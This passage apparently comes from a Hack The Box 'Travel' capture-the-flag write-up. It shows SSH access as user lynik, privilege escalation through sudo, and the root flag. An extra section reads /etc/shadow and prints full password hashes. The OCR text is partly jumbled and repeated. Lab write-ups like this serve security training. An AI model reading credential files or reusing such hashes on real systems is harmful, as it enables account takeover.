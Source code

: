 Last login: Sat Sep 19 16:12:03 2020 from 10.10.15.53 To run a command as administrator \(user "root"\), use "sudo ". See "man sudo\_root" for details.

lynik@travel:~$ id uid=5000\(lynik\) gid=27\(sudo\) groups=27\(sudo\),5000\(domainusers\)

┌──\(zweilos㉿kali\)-\[~/htb/travel\] └─$ ssh lynik@10.10.10.189 -i lynik Welcome to Ubuntu 20.04 LTS \(GNU/Linux 5.4.0-26-generic x86\_64\)

System information as of Sat 19 Sep 2020 04:12:42 PM UTC

System load: 0.06 Usage of /: 46.0% of 15.68GB Memory usage: 11% Swap usage: 0% Processes: 197 Users logged in: 1 IPv4 address for br-836575a2ebbb: 172.20.0.1 IPv4 address for br-8ec6dcae5ba1: 172.30.0.1 IPv4 address for docker0: 172.17.0.1 IPv4 address for eth0: 10.10.10.189

Last login: Sat Sep 19 16:12:03 2020 from 10.10.15.53 To run a command as administrator \(user "root"\), use "sudo ". See "man sudo\_root" for details.

lynik@travel:~$ id uid=5000\(lynik\) gid=27\(sudo\) groups=27\(sudo\),5000\(domainusers\)

```text
### Getting a shell

after adding this user to the sudoers group:
```

lynik@travel:~$ sudo -l \[sudo\] password for lynik: Matching Defaults entries for lynik on travel: env\_reset, mail\_badpass, secure\_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lynik may run the following commands on travel: \(ALL : ALL\) ALL lynik@travel:~$ sudo su - root@travel:~\# cat root.txt 550099de4950e4d03a939943ad265eb0

```text
### Root.txt

NOT PART OF WRITEUP
```

lynik@travel:/var$ sudo cat /etc/shadow root:$6$p6a8fCN5/L4rm3FA$bwV15SC9j7QwaRwolnptinKydaRp9O3826E8QlFyrVmjxoaIvs6A.Aw7Z/VCRgGXu0cjLYfmznespEhTS8ZUe/:18397:0:99999:7::: daemon:_:18375:0:99999:7::: bin:_:18375:0:99999:7::: sys:_:18375:0:99999:7::: sync:_:18375:0:99999:7::: games:_:18375:0:99999:7::: man:_:18375:0:99999:7::: lp:_:18375:0:99999:7::: mail:_:18375:0:99999:7::: news:_:18375:0:99999:7::: uucp:_:18375:0:99999:7::: proxy:_:18375:0:99999:7::: www-data:_:18375:0:99999:7::: backup:_:18375:0:99999:7::: list:_:18375:0:99999:7::: irc:_:18375:0:99999:7::: gnats:_:18375:0:99999:7::: nobody:_:18375:0:99999:7::: systemd-network:_:18375:0:99999:7::: systemd-resolve:_:18375:0:99999:7::: systemd-timesync:_:18375:0:99999:7::: messagebus:_:18375:0:99999:7::: syslog:_:18375:0:99999:7::: \_apt:_:18375:0:99999:7::: tss:_:18375:0:99999:7::: uuidd:_:18375:0:99999:7::: tcpdump:_:18375:0:99999:7::: landscape:_:18375:0:99999:7::: pollinate:_:18375:0:99999:7::: sshd:_:18375:0:99999:7::: systemd-coredump:!!:18375:::::: trvl-admin:$6$bUFYK4oYT.zHHNS0$dphmYazflDpzFBhBjs47RuX1E1gLoGbM1cpIHKTelSGLL0Om5suPH6Sp7gyFGxq21R/YfqoOu5WNf8y5IoKsx.:18375:0:99999:7::: lxd:!:18375:::::: lynik-admin:$6$uCqqXDwiD4ZkQXYX$umY1zXMfcaWTgiNcvGrqO9DQSysYAZWp.VVLr2aj/lssN67EPiENanfCFgZBSsEakZNmF4E1kz6VaKft2gXNX.:18376:0:99999:7::: dnsmasq:_:18375:0:99999:7::: sssd:\*:18375:0:99999:7:::

\`\`\`

Thanks to xct [`xct`](https://www.hackthebox.eu/home/users/profile/13569) & [`jkr`](https://www.hackthebox.eu/home/users/profile/77141) for something interesting or useful about this machine.

If you like this content and would like to see more, please consider supporting me through Patreon at [https://www.patreon.com/zweilosec](https://www.patreon.com/zweilosec).

